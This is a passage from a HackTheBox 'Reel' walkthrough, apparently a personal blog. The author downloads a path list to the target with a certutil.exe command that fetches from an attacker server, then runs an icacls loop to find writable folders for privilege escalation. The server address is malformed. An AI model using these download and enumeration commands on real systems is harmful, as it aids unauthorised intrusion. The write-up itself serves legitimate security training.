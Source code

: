 ![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-41.png)

Let's transfer it to the target machine:

`certutil.exe -urlcache -f -split http://10.10.1.4.36:8000/icacls.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-42.png)

Below command will use a for loop to run icacls against each line of the icacls.txt file. We also filtered our results to show us only the folders we have write permissions on.

```powershell
for /F %A in (C:\Windows\Temp\icacls.txt) do ( cmd.exe /c icacls "%~A" 2>nul | findstr /i "(F) (M) (W) (R,W) (RX,WD) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. ) 
```

Following paths were identified to be writeable:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-45.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-46.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-47.png)

